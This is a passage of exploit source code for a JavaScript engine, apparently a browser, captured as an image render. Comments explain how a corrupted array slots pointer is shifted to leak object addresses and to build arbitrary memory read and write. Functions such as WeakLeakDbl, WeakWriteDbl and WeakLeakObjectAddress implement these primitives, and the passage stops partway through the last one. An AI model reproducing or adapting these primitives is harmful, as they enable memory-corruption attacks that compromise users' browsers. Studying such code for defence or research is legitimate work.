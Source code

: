     Thus the trick is to set the slots pointer in the mutable array native object
    ahead by 4 bytes. This the result that the object address (previously only in
    the "y" slot) can now be partially read (32-bits at a time) from both "x" and
    "y" and that these values are now certain to be valid doubles.

    We can ensure the resulting double is valid by using bitwise AND to filter off
    the significant bits responsible for differentiating between a valid and
    non-valid double.

    ~ Strong arbitrary read

    This primitive solves the issue of attempting to read 8 bytes in memory which
    may be invalid doubles and thus misinterpreted as pointers (for example if the
    tagged pointer bits are set).

    The solution is to simply create a double float array, and then overwrite its
    data pointer to point to the precise region we want to read. The key concept
    here is that it reduces the ambiguity on the part of the JS engine. Since the
    JS engine knows that the value at this address is explicitly a double float,
    it will not attempt to potentially interprete it as an object pointer even if
    those tagged bits are set.
    */

    function WeakLeakDbl(TargetAddress) {
        SavedSlotsPtr = BugArray2[8];
        BugArray2[8] = TargetAddress;
        LeakedDbl = MutableArray.x;
        BugArray2[8] = SavedSlotsPtr;
        return LeakedDbl;
    }

    function WeakWriteDbl(TargetAddress, Val) {
        SavedSlotsPtr = BugArray2[8];
        BugArray2[8] = TargetAddress;
        MutableArray.x = Val;
        BugArray2[8] = SavedSlotsPtr;
    }

    function WeakLeakObjectAddress(Obj) {
        SavedSlotsPtr = BugArray2[8];

        //                                             x                       y                        z
        // MutableArray.NativeObj.SlotsPtr -> [0x????????????????] | [Target object address] | [0x????????????????]
        MutableArray.y = Obj;

        //                                             x                       y                        z
        // MutableArray.NativeObj.SlotsPtr -> [0x????????Target o] | [bject adress????????] | [0x????????????????]

        HelperDbl[0] = BugArray2[8];
        HelperDword[0] = HelperDword[0] + 4;
        BugArray2[8] = HelperDbl[0];

        // Patch together a double of the target object address from the two 32-bit property values
